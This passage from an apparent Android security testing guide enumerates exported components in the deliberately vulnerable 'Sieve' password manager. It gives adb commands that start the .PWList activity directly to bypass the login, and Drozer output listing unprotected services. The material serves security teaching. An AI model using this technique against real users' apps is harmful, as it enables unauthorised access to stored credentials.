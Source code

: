 ```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mwr.example.sieve">
...
  <!-- This activity is exported via the attribute "exported" -->
  <activity android:name=".FileSelectActivity" android:exported="true" />
   <!-- This activity is exported via the "intent-filter" declaration  -->
  <activity android:name=".MainLoginActivity">
    <intent-filter>
      <action android:name="android.intent.action.MAIN"/>
      <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
  </activity>
  <!-- This activity is exported via the attribute "exported" -->
  <activity android:name=".PWList" android:exported="true" />
  <!-- Activites below are not exported -->
  <activity android:name=".SettingsActivity" />
  <activity android:name=".AddEntryActivity"/>
  <activity android:name=".ShortLoginActivity" />
  <activity android:name=".WelcomeActivity" />
  <activity android:name=".PINActivity" />
...
</manifest>
```

Enumerating activities in the vulnerable password manager "Sieve" shows that the following activities are exported:

- `.MainLoginActivity`
- `.PWList`
- `.FileSelectActivity`

Use the command below to launch an activity:

```bash
# Start the activity without specifying an action or an category
$ adb shell am start -n com.mwr.example.sieve/.PWList
Starting: Intent { cmp=com.mwr.example.sieve/.PWList }

# Start the activity indicating an action (-a) and an category (-c)
$ adb shell am start -n "com.mwr.example.sieve/.MainLoginActivity" -a android.intent.action.MAIN -c android.intent.category.LAUNCHER
Starting: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=com.mwr.example.sieve/.MainLoginActivity }
```

Since the activity `.PWList` is called directly in this example, you can use it to bypass the login form protecting the password manager, and access the data contained within the password manager.

#### Services

Services can be enumerated with the Drozer module `app.service.info`:

```bash
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```
